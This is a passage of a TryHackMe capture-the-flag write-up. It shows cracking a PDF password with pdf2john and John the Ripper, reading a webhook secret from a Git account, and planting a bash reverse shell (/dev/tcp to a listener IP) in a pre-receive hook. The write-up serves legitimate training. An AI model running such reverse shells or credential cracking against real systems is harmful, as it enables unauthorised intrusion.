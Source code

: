 To proceed, I utilized "pdf2john" to convert the file to JohnTheRipper format for password cracking:

```bash
pdf2john uninteresting_file.pdf > pdf.hash
```
Cracking the password using the rockyou wordlist with JohnTheRipper swiftly revealed the access key:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/2f427596-a466-4f20-90ae-87c6673b78a3)

Opening the PDF file with the acquired password exposed another string resembling a password for the user "leeroy":

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/4d5a1f73-70f0-4532-9ebe-9d214ba263a9)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Flag1:

Upon successfully logging into Leeroy's account using the acquired credentials:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/97209883-67c1-4d63-8505-71c363e0d586)

Within Leeroy's account, a single repository was discovered. Further enumeration led to the identification of a secret in the webhook section:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/ab28a140-828d-44dc-8773-dd4b0a4a5d4c)

Although the secret was initially obfuscated, inspecting the webpage's source code revealed the plaintext secret, constituting the first flag for this room:(pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/4213d367-2c71-4adc-b5aa-d1bc0b1b34f2)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

Given Leeroy's administrative access on the Git instance, I exploited this privilege to modify the GitHooks. In this exploit, I inserted a bash reverse shell into the pre-receive hook and initiated a netcat listener to capture the reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.6.79.71/53 0>&1'
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/fc7bdc7d-d053-4627-bda4-e01309a147eb)

After updating the hook, I navigated back to Leeroy's readme.md file and made a minor modification, adding an exclamation mark. Upon updating, the reverse shell connection was successfully established, running under the user "git":

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/c59a891b-fcb0-453e-b661-ea5416348f48)
